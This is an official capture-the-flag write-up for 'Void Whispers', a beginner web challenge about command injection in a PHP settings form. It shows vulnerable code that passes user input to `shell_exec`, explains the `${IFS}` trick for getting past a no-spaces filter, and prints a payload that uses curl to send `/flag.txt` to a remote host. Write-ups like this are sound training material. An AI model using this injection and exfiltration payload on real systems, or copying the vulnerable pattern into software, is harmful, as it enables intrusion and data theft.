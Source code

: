 ![img](assets/banner.png)


<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    <font size="6">Void Whispers</font>
  20<sup>th</sup> Oct 2024 / Document No. D24.xxx.xxx

  Prepared By: Xclow3n

  Challenge Author: Xclow3n

  Difficulty: <font color=green>Very Easy</font>

  Classification: Official



# [Synopsis](#synopsis)

Void Whispers is a very easy web challenge designed to help players understand and exploit Command Injection.

# Skills Required
- Basic knowledge of PHP

# Skills Learned
- Command Injection

# [Solution](#Solution)
Visiting the home page displays the following interface:
![img](assets/home.png)

We can update and save the settings:
![img](assets/save.png)

We are provided with the source code of this application, so let's examine how this functionality works.

In `IndexController.php`:

```php
class IndexController
{
  private $configFile = 'config.json'; 
  private $config;

  public function __construct() {
    if (file_exists($this->configFile)) {
      $this->config = json_decode(file_get_contents($this->configFile), true);
    } else {
      $this->config = array(
        'from' => 'Ghostly Support', 
        'email' => 'support@void-whispers.htb',
        'sendMailPath' => '/usr/sbin/sendmail',
        'mailProgram' => 'sendmail',
      );
    }
  }

  ... SNIP ...
  public function updateSetting($router)
  {
    $from = $_POST['from'];
    $mailProgram = $_POST['mailProgram'];
    $sendMailPath = $_POST['sendMailPath'];
    $email = $_POST['email'];

    if (empty($from) || empty($mailProgram) || empty($sendMailPath) || empty($email)) {
      return $router->jsonify(['message' => 'All fields required!', 'status' => 'danger'], 400);
    }

    if (preg_match('/\s/', $sendMailPath)) {
      return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
    }

    $whichOutput = shell_exec("which $sendMailPath");
    if (empty($whichOutput)) {
      return $router->jsonify(['message' => 'Binary does not exist!', 'status' => 'danger'], 400);
    }

    $this->config['from'] = $from;
    $this->config['mailProgram'] = $mailProgram;
    $this->config['sendMailPath'] = $sendMailPath;
    $this->config['email'] = $email;

    file_put_contents($this->configFile, json_encode($this->config));

    return $router->jsonify(['message' => 'Config updated successfully!', 'status' => 'success'], 200);
  }
}
```

This PHP function, `updateSetting`, is responsible for updating email-related configuration settings. It takes user input from a form (`from`, `mailProgram`, `sendMailPath`, and `email`) and performs the following checks:

1. **Validation**: Ensures all fields are provided and that the `sendMailPath` does not contain spaces.
2. **Check for Binary Existence**: Uses `shell_exec` to check if the provided `sendMailPath` exists on the system.
3. **Update Configuration**: If validation passes, it updates the configuration file (`$this->configFile`) with the new settings and saves them in JSON format.
4. **Response**: Returns success or error messages using the `jsonify` method based on the outcome of the process.

### Command Injection Vulnerability:
The function is vulnerable to **command injection** because the input for `sendMailPath` is passed directly to the shell without being sanitized. This allows an attacker to inject arbitrary commands into the system. However, the check on `sendMailPath` disallows spaces, so we cannot use normal spaces in our payload.

### `${IFS}` Explanation:
`${IFS}` is a special environment variable in Unix-like systems that stands for "Internal Field Separator." It is used by the shell to separate words in a command. The default value of `${IFS}` is a space, newline, and tab. We can exploit this by using `${IFS}` in place of spaces to bypass the space restriction in the command injection.

### Crafting the Payload:
We can craft a payload using `${IFS}` to simulate spaces and inject a malicious command:

```
/usr/sbin/sendmail;curl${IFS}https://[IP]?x=$(cat${IFS}/flag.txt)
```

This payload works as follows:
- `/usr/sbin/sendmail` executes as normal.
- `curl${IFS}https://[IP]?x=$(cat${IFS}/flag.txt)` uses `${IFS}` in place of spaces to run a `curl` command that exfiltrates the contents of `flag.txt` by sending it to a remote server.

When saved, this payload provides us with the flag:
![img](assets/flag.png)

This completes the challenge! :)

